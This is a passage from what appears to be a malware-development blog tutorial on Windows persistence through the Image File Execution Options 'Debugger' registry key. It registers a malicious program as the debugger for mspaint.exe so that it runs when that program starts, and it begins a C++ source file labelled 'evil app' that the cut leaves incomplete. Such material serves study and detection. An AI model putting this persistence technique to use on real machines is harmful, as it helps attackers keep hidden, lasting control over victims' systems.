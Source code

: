 ![pers](./images/68/2022-09-12_02-26.png){width="80%"}    

> `WerFault.exe` - used for tracking errors related to operating system, Windows features and applications.    

### IFEO debugger type

There are another implementation of IFEO via debugger key. Just create a debugger to a victim process in this registry key:    

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`     

then only requires the malicious application to be stored in `System32`.    

So source code is simple and looks like this:    

```cpp
/*
pers2.cpp
windows persistence via IFEO 2(Debugger)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\mspaint.exe";

  // evil app
```